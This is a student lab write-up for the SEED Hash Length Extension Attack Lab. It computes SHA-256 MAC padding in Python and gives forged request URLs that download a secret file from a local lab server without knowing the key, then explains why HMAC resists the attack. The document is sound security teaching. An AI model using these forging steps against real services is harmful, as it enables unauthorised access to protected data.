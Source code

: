```yaml
---
title: Hash Length Extension Attack Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_20.04/Files/Crypto_Hash_Length_Ext/Crypto_Hash_Length_Ext.pdf

# Lab Environment

Set up the container and run it (`www-10.9.0.80`) in the background:

```sh
curl https://seedsecuritylabs.org/Labs_20.04/Files/Crypto_Hash_Length_Ext/Labsetup.zip -o Labsetup.zip
unzip Labsetup.zip
cd Labsetup
dcbuild
dcup -d
```

If necessary, get the running container id by `dockps` and use `docksh <id>` to start a shell on this container.

Add the following entry in `/etc/hosts` *(root privilege required, try `sudo vi /etc/hosts`)*:

```
10.9.0.80 www.seedlab-hashlen.com
```

# Task 1

Construct and send a benign request to the server:

1. Pick up a `uid` with its key value from `Labsetup/image_flask/app/LabHome/key.txt` instead of using a real name, for example, I choose the entry `1001:123456` in this task.
2. Calculate the MAC of the key concatenated with request content `R`, that is

```
Key:R = 123456:myname=koji&uid=1001&lstcmd=1
```

Suppose that the name used here is "koji" and it requests for listing all the files in `LabHome` folder.

So the MAC is calculated as:

```sh
echo -n "123456:myname=koji&uid=1001&lstcmd=1" | sha256sum
#66357225216e2e9d1eb27b44fcfaa4c60f9955a7f1318ce5e757c9ef07e6c92d  -
```

Thus the complete request is:

```
http://www.seedlab-hashlen.com/?myname=koji&uid=1001&lstcmd=1&mac=66357225216e2e9d1eb27b44fcfaa4c60f9955a7f1318ce5e757c9ef07e6c92d
```

*Don't use `curl` or `wget`, it doesn't support. Just open a Firefox browser via VNC client and visit the url link above.*

The web looks like:

![](./lstcmd.png)

For a download request, we take a similar strategy to construct:

```
http://www.seedlab-hashlen.com/?myname=koji&uid=1001&lstcmd=1&download=secret.txt&mac=35e5980662296f9ab0456211ec02f0274fc0a70ed6a6e3c68f8995be4f2e6e62
```

![](./download.png)

# Task 2

Construct the padding for 
```
123456:myname=koji&uid=1001&lstcmd=1
```

Use Python REPL to complete this work:

```sh
python
>>> payload = bytearray("123456:myname=koji&uid=1001&lstcmd=1",'utf8')
>>> len(payload)
36
>>> length_field = (len(payload)*8).to_bytes(8,'big')
>>> padding = b'\x80' + b'\x00'*(64-len(payload)-1-8) + length_field
>>> print(''.join('\\x{:02x}'.format(x) for x in padding))
\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x20
# for url-encoding
>>> print(''.join('%{:02x}'.format(x) for x in padding))
%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%20
```

# Task 3

Compile and run [`calculate_mac.c`](./calculate_mac.c), in which [`SHA256_Update`](./calculate_mac.c#L9) takes the padding bytes we obtained in [previous task](#task-2) followed by `&download=secret.txt` as the second argument.


```sh
gcc calculate_mac.c -o calculate_mac -lcrypto
./calculate_mac
```

It gives:

```
14797c6db7ca0309d20e0b3c54ac19df60861a83fe64b2713a45e18469b5f3fc
```

---

If it reports an error as:

```
gcc: error: calculate_mac.c: No such file or directory
```

try:

```
sudo apt install libssl-dev
```

---

Then, visit

```
http://www.seedlab-hashlen.com/?myname=koji&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%20&download=secret.txt&mac=14797c6db7ca0309d20e0b3c54ac19df60861a83fe64b2713a45e18469b5f3fc
```

![](./padding.png)

# Task 4

Alternatively, to distinguish from the existing work, we turn to apply the `1002:983abe` as `mackey-uid` and "MUR" as current username.

A legitimate request to list files without MAC value:

```
http://www.seedlab-hashlen.com/?myname=MUR&uid=1002&lstcmd=1
```

can be calculated by

```sh
echo -n "983abe:myname=MUR&uid=1002&lstcmd=1" | sha256sum
# 3a286321c4cb101ce172c1377a75a4ccf46ad9ff4fc8680ec582fa1d004da2e2  -
```

Assume that we have already observed the full request URL as

```
http://www.seedlab-hashlen.com/?myname=MUR&uid=1002&lstcmd=1&mac=3a286321c4cb101ce172c1377a75a4ccf46ad9ff4fc8680ec582fa1d004da2e2
```

But we do not know the mac key of it. So we use [`length_ext.c`](./length_ext.c) to obtain the MAC after appending `"&download=secret.txt"` argument. Compile and run:

```sh
gcc length_ext.c -o length_ext -lcrypto
./length_ext
# bcea031dd94604d9b84e4886aab8e083b6ba2ec66f50316555cf1cb451bf4aed
```

Then, construct the padding of the original message as [task-2](#task-2), recall that we don't know what the mac key exactly is but we know the length of keys are fixed, so we can easily calculate the padding:

```sh
python
>>> payload = bytearray("******:myname=MUR&uid=1002&lstcmd=1",'utf8')
>>> length_field = (len(payload)*8).to_bytes(8,'big')
>>> padding = b'\x80' + b'\x00'*(64-len(payload)-1-8) + length_field
>>> print(''.join('%{:02x}'.format(x) for x in padding))
%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%18
```

So the full request is:

```
http://www.seedlab-hashlen.com/?myname=MUR&uid=1002&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%18&download=secret.txt&mac=bcea031dd94604d9b84e4886aab8e083b6ba2ec66f50316555cf1cb451bf4aed
```

![](./mur.png)

# Task 5

Keyed-hash mesaage authentication code (HMAC) can be used as the follwing example:

```sh
python
>>> import hmac
>>> import hashlib
>>> key = '123456'
>>> message = 'myname=koji&uid=1001&lstcmd=1'
>>> hmac.new(bytearray(key.encode('utf8')), msg=message.encode('utf-8',
... 'surrogateescape'), digestmod=hashlib.sha256).hexdigest()
'e216c440b3a152d0a8b62e54076863080bc4febe69299ec3aa420c43033cde10'
```

Or

```sh
echo -n "myname=koji&uid=1001&lstcmd=1" | openssl dgst -sha256 -hmac "123456"
# (stdin)= e216c440b3a152d0a8b62e54076863080bc4febe69299ec3aa420c43033cde10
```

HMAC works as the figure below shows:


![](./hmac.png)

$H$ is a hash function and $K$ is a secret key, which could be of any length. $B$ denotes the block size for $H$.

For an input message $M$, he inner hash (left part) first computes $H(K \oplus ipad) \mathbin\Vert M$ and its result $h$ is passed to the outer hash in order to perform $H((K \oplus opad) \mathbin\Vert h$, in which `ipad` and `opad` are both constants.

In such an algorithm, the MAC key is required in both 2 hash functions. The MAC of a full message calculated by inner hash is required taking by the outer hash function, so if we don't have the internal result, which is invisible to us, we cannot compute the correct final MAC. Due to the sequential design, if the server applies HMAC instead of ordinary MAC methods we discussed above, the attacker cannot directly construct the MAC of an extended message from the final MAC of a legal request only. Therefore, hash length extension attack will fail.